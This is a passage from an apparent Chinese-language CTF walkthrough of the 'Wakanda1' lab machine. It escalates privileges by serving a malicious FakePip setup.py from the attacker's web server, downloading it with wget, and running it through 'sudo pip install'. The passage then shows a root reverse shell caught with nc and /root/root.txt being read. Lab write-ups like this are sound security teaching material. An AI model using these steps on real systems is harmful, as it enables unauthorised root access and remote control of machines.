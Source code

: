 因为服务器上没有git,根据对应地址修改脚本然后再利用攻击机的web服务上传到服务器上

```
root@kali:~/FakePip# python -m SimpleHTTPServer 80

wget <攻击机地址>/setup.py
```

或者也可以复制脚本内容“手工上传”到靶机上

利用exp提供的方法可以获得root的反弹shell

```bash
sudo /usr/bin/pip install . --upgrade --force-reinstall
Unpacking /home/devops
  Running setup.py (path:/tmp/pip-GX4_KQ-build/setup.py) egg_info for package from file:///home
    
Installing collected packages: FakePip
  Found existing installation: FakePip 0.0.1
    Uninstalling FakePip:
      Successfully uninstalled FakePip
  Running setup.py install for FakePip

nc -lvp 13372 #攻击机
listening on [any] 13372 ...
192.168.31.154: inverse host lookup failed: Unknown host
connect to [192.168.31.51] from (UNKNOWN) [192.168.31.154] 35263
root@Wakanda1:/tmp/pip-GX4_KQ-build# cat /root/root.txt
```

提权成功